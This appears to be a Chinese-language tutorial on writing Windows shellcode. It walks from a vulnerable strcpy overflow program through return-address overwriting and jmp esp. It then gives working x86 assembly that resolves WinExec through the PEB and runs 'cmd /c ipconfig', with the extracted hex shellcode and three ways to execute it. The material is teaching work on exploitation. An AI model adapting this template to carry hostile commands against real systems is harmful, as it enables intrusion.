




### shellcode

详细阅读 [www.exploit-db.com](https://www.exploit-db.com/shellcodes) 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。


Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限。另外，Shellcode一般是作为数据发送给受攻击服务的。 Shellcode是溢出程序和蠕虫病毒的核心，提到它自然就会和漏洞联想在一起，毕竟Shellcode只对没有打补丁的主机有用武之地。网络上数以万计带着漏洞顽强运行着的服务器给hacker和Vxer丰盛的晚餐。漏洞利用中最关键的是Shellcode的编写。由于漏洞发现者在漏洞发现之初并不会给出完整Shellcode，因此掌握Shellcode编写技术就显得尤为重要。
缓冲区溢出的shellcode很多了，这里重现下缓冲区溢出。

```
int fun(char *shellcode)
{
	char str[4]="";//这里定义4个字节
	strcpy(str,shellcode);//这两个shellcode如果超过4个字节，就会导致缓冲区溢出
	printf("%s",str);
	return 1;
}
int main(int argc, char* argv[])
{
  char str[]="aaaaaaaaaaaaaaaaaaa!";
  fun(str);
  return 0;
}
```
如上程序，会导致缓冲区溢出。
程序运行后截图如下


如上可以看出来，异常偏移是61616161，其实自己观察61616161其实就是aaaa的Hex编码

因为调用函数的过程大致是
1：将参数从右到左压入堆栈
2：将下一条指令的地址压入堆栈
3：函数内部的临时变量申请
4：函数调用完成，退出
内存栈区从高到低
[参数][ebp][返回地址][函数内部变量空间]
如上程序，如果函数内部变量空间比较小，执行strcpy时候，源字符串比目标字符串长，就会覆盖函数返回地址，导致程序流程变化



0048FE44前四个00是str申请的四个字节的并初始化为00，后面的48FF1800是函数的返回地址，再后面的411E4000是ebp，既调用函数的基址。

再往下执行strcpy函数后，可以看见aaaaaaaa覆盖了返回地址

如图


可以看见0018FF44地址后面的函数返回地址和ebp都被61填充了。

fun函数执行完后，返回调用fun函数地址时候，导致程序报错。

缓冲区溢出的简单讲解如上，这时候，如果我们把返回地址改成我们自己的函数地址，不就可以执行我们自己的程序了？

缓冲区溢出利用就是把返回地址改成我们自己的函数地址，上面的方法就是覆盖eip，既返回地址，还有一种方法是覆盖SHE，原理差不多。

了解了基本原理，下面可以编写利用的代码

缓冲区溢出，基本的使用方法是jmp esp，覆盖的eip指针是jmp esp的地址，利用的字符串结构如下

[正常的字符串][jmp esp的地址][执行的代码(shellcode)]

关于获取jmp esp的代码，可以自己写个程序，从系统中查找jmp esp代码0xFFE4。

下面开始编写shellcode以及调用实现
```
void fun()
{
	__asm
	{
     mov eax, dword ptr fs:[0x30];
     mov eax, dword ptr [eax+0xC];
     mov eax, dword ptr [eax+0xC];
     mov eax, dword ptr [eax];
     mov eax, dword ptr [eax];
     mov eax, dword ptr [eax+0x18];
     mov ebp,eax                        //Kernel.dll基址
     mov eax,dword ptr ss:[ebp+3CH]      // eax=PE首部
     mov edx,dword ptr ds:[eax+ebp+78H]  //
     add edx,ebp                        // edx=引出表地址
     mov ecx,dword ptr ds:[edx+18H]      // ecx=导出函数个数，NumberOfFunctions
     mov ebx,dword ptr ds:[edx+20H]      //
     add ebx,ebp                        // ebx=函数名地址，AddressOfName
start:                                  //
     dec ecx                            // 循环的开始
     mov esi,dword ptr ds:[ebx+ecx*4]   //
     add esi,ebp                        //
     mov eax,0x50746547                   //
     cmp dword ptr ds:[esi],eax         // 比较PteG
     jnz start                     //
     mov eax,0x41636F72                   //
     cmp dword ptr ds:[esi+4],eax       // 比较Acor，通过GetProcA几个字符就能确定是GetProcAddress
     jnz start                     //
     mov ebx,dword ptr ds:[edx+24H]      //
     add ebx,ebp                        //
     mov cx,word ptr ds:[ebx+ecx*2]     //
     mov ebx,dword ptr ds:[edx+1CH]      //
     add ebx,ebp                        //
     mov eax,dword ptr ds:[ebx+ecx*4]   //
     add eax,ebp                        // eax 现在是GetProcAddress地址
     mov ebx,eax                        // GetProcAddress地址存入ebx，如果写ShellCode的话以后还可以继续调用
     push 0                             //
     push 0x636578                        //
     push 0x456E6957                      // 构造WinExec字符串
     push esp                           //
     push ebp                           // ebp是kernel32.dll的基址 
     call ebx                           // 用GetProcAdress得到WinExec地址
     mov ebx,eax                        // WinExec地址保存到ecx
 
     push 0x00676966
     push 0x6E6F6370
     push 0x6920632F
     push 0x20646d63    //cmd压入栈
 
     lea eax,[esp];     //取到cmd首地址
     push 1             //
     push eax           // ASCII "cmd /c ipconfig"
     call ebx           // 执行WinExec
    // leave            // 跳回原始入口点
	}
}

int main(int argc, char* argv[])
{
   fun();
}
```

如果汇编代码在vc调试下，获取二进制代码如图:



查看00401A08的地址，可以看出是fun函数的汇编代码

shellcode代码基本获取到了，现在是要把他复制出来，

我取出来的后，如下

unsigned char shellcode[]={
    0x64,0xA1,0x30,0x00,0x00,0x00,0x8B,0x40,0x0C,0x8B,0x40,0x0C,0x8B,0x00,0x8B,0x00,0x8B,0x40,0x18,0x8B,0xE8,0x36,0x8B,0x45,
    0x3C,0x3E,0x8B,0x54,0x28,0x78,0x03,0xD5,0x3E,0x8B,0x4A,0x18,0x3E,0x8B,0x5A,0x20,0x03,0xDD,0x49,0x3E,0x8B,0x34,0x8B,0x03,
    0xF5,0xB8,0x47,0x65,0x74,0x50,0x3E,0x39,0x06,0x75,0xEF,0xB8,0x72,0x6F,0x63,0x41,0x3E,0x39,0x46,0x04,0x75,0xE4,0x3E,0x8B,
    0x5A,0x24,0x03,0xDD,0x66,0x3E,0x8B,0x0C,0x4B,0x3E,0x8B,0x5A,0x1C,0x03,0xDD,0x3E,0x8B,0x04,0x8B,0x03,0xC5,0x8B,0xD8,0x6A,
    0x00,0x68,0x78,0x65,0x63,0x00,0x68,0x57,0x69,0x6E,0x45,0x54,0x55,0xFF,0xD3,0x8B,0xD8,0x68,0x66,0x69,0x67,0x00,0x68,0x70,
    0x63,0x6F,0x6E,0x68,0x2F,0x63,0x20,0x69,0x68,0x63,0x6D,0x64,0x20,0x8D,0x04,0x24,0x6A,0x01,0x50,0xFF,0xD3};
稍作了下加工，0x是HEX的方式。

下面是我们调用shellcode，看是否可以用

程序如下：

int main(int argc, char* argv[])
{
    unsigned char shellcode[]={
    0x64,0xA1,0x30,0x00,0x00,0x00,0x8B,0x40,0x0C,0x8B,0x40,0x0C,0x8B,0x00,0x8B,0x00,0x8B,0x40,
    0x18,0x8B,0xE8,0x36,0x8B,0x45,0x3C,0x3E,0x8B,0x54,0x28,0x78,0x03,0xD5,0x3E,0x8B,0x4A,0x18,
    0x3E,0x8B,0x5A,0x20,0x03,0xDD,0x49,0x3E,0x8B,0x34,0x8B,0x03,0xF5,0xB8,0x47,0x65,0x74,0x50,
    0x3E,0x39,0x06,0x75,0xEF,0xB8,0x72,0x6F,0x63,0x41,0x3E,0x39,0x46,0x04,0x75,0xE4,0x3E,0x8B,
    0x5A,0x24,0x03,0xDD,0x66,0x3E,0x8B,0x0C,0x4B,0x3E,0x8B,0x5A,0x1C,0x03,0xDD,0x3E,0x8B,0x04,
    0x8B,0x03,0xC5,0x8B,0xD8,0x6A,0x00,0x68,0x78,0x65,0x63,0x00,0x68,0x57,0x69,0x6E,0x45,0x54,
    0x55,0xFF,0xD3,0x8B,0xD8,0x68,0x66,0x69,0x67,0x00,0x68,0x70,0x63,0x6F,0x6E,0x68,0x2F,0x63,
    0x20,0x69,0x68,0x63,0x6D,0x64,0x20,0x8D,0x04,0x24,0x6A,0x01,0x50,0xFF,0xD3};
    //三种方式执行shellcode
    //第一种
    ((void (*)())&shellcode)(); // 执行shellcode
    //第二种
    __asm   
   {   
      lea eax,shellcode;   
      jmp eax;   
   } 
   //第三种
    __asm
   {
      lea eax, shellcode
      push eax
      ret 
   }
}
至此，shellcode的编写完成了，如上这只是shellcode大致编写过程，是在windows下环境编写的，linux环境下的编写过程基本相同
至于更高级的利用，可以去看雪论坛逛逛。
